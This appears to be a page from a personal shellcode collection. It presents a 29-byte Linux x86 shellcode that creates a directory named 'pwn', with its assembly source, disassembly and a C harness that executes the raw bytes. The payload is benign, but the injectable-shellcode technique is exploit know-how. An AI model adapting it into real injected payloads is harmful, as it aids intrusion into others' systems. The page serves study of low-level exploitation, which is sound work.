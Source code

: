 ```yaml
---
title:  Linux/86 Create Directory (mkdir)-> Jmp-call-pop,XOR
date: 2022-06-03 05:49:33 +0800
categories: [Shellcodes, Linux]
tags: []  
---
```


# Info

Description: `Shellcode to create a directory.`

Platform: `Linux`

Arch: `x86`

Size: `29 bytes`

Technique: `jmp-call-pop`, `XOR`

Shellcode : `\xeb\x13\x5b\x31\xc0\x31\xc9\xb0\x27\x66\xb9\xc0\x01\xcd\x80\x31\xdb\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x70\x77\x6e`

# Execution

![shellcode](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/shellcodes/mkdirjmpcallpopxor.png)

# Assembly-nasm

`nasm -f elf32 -o shellcode.o shellcode.asm`

`ld -o shellcode shellcode.o`

```nasm

global _start

section .text

_start:
    
    jmp data

main_:
    pop ebx
   
   ; create directory
    xor eax, eax
    xor ecx, ecx
    mov al, 0x27
    mov cx, 0q700
    int 0x80

    ; exit
    xor ebx, ebx
    mov al, 0x1
    int 0x80

data:
    call main_
    dirname: db "pwn"
 

```
# objdump

`objdump -d ./shellcode -M intel`

```bash

./shellcode:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:       eb 13                   jmp    8048075 <data>

08048062 <main_>:
 8048062:       5b                      pop    ebx
 8048063:       31 c0                   xor    eax,eax
 8048065:       31 c9                   xor    ecx,ecx
 8048067:       b0 27                   mov    al,0x27
 8048069:       66 b9 c0 01             mov    cx,0x1c0
 804806d:       cd 80                   int    0x80
 804806f:       31 db                   xor    ebx,ebx
 8048071:       b0 01                   mov    al,0x1
 8048073:       cd 80                   int    0x80

08048075 <data>:
 8048075:       e8 e8 ff ff ff          call   8048062 <main_>

0804807a <dirname>:
 804807a:       70 77                   jo     80480f3 <dirname+0x79>
 804807c:       6e                      outs   dx,BYTE PTR ds:[esi]


```

# C

`gcc -o shellcode shellcode.c`

```c

#include <string.h>
#include <stdio.h>

const char * shellcode = "\xeb\x13\x5b\x31\xc0\x31\xc9\xb0\x27\x66\xb9\xc0\x01\xcd\x80\x31\xdb\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x70\x77\x6e";

int main(void){
        printf("Length: %d\n", strlen(shellcode));
        (*(void(*)())shellcode)();
        return 0;
}


```

